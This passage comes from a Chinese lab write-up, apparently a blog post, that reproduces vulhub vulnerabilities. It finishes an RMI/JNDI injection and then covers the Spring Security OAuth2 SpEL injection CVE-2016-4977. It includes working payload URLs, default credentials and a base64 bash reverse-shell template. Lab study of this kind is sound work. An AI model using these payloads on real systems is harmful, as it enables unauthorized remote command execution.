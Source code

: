 
按照你java版本(1\.8以上建议选第一个就行)选择rmi地址，然后在web漏洞存在的页面上输入



```
javax.naming.InitialContext
rmi://your-ip:1099/9b8j4m

```

点击连接即发起攻击![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0e076ab1255341ddb2586d72a6e387e3.png) rmi服务器有反应 ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f5901673fc3c48a496895407d96812b4.png)


容器内可以看到就创建成功了
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e672465dc2d54a4bad0daf6cd4374981.png)


## Spring Security OAuth2远程命令执行漏洞(CVE\-2016\-4977\)


* 漏洞原理
参考：[https://blog.knownsec.com/2016/10/spring\-security\-oauth\-rce](https://github.com)
注意：参考文章中访问的url和vulhub给的不一样，我下面是按照vulhub的来。
**简单来说**：这里的SpEL注入，造成注入的原因是渲染了错误信息，由于errorSummary被装入model，然后进入函数后递归提取SpEL表达式执行。
* 影响版本
Spring Security OAuth2 2\.0\.0 \~ 2\.0\.9
Spring Security OAuth2 1\.0\.0 \~ 1\.0\.5
* 漏洞复现
访问 `/oauth/authorize?response_type=${233*1}&client_id=acme&scope=openid&redirect_uri=http://test`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/4d41bc590218476fac3dc6878facf451.png)
需要登录的输入admin/admin
然后就会发现我们SpEL注入的表达式就在：`response_type=${233*1}`
那么就可以通过[脚本：https://github.com/vulhub/vulhub/blob/master/spring/CVE\-2016\-4977/poc.py](https://github.com) 来生成对应的SpEL表达式
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c8a59f96522b4e94937d3833cc2fc9cb.png)
使用脚本之前先进行编码，这里将你要执行的命令编码一下，这里使用base64，要进行一次反弹shell操作。
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/29495c3e58614fa6b26d12ed6187f056.png)
然后使用poc.py脚本生成SpEL表达式，
格式为：`bash -c {echo,你生成的base64编码放这里|{base64,-d}|{bash,-i}`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/08c63262ea8c409b87497b133c4c29cf.png)
然后再服务器开启监听接受反弹shell
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/64dd0c023d974c8dbc0a564051a0054a.png)
接着就可以将poc.py的那一段payload放进参数`response_type=${payload这里}`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f0d5524f50c24711bc3f00213b6e7ba7.png)
可以看到反弹shell成功
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/747cb299812e4e0386f0e722741ec3fc.png)


## Spring WebFlow远程代码执行漏洞(CVE\-2017\-4971\)
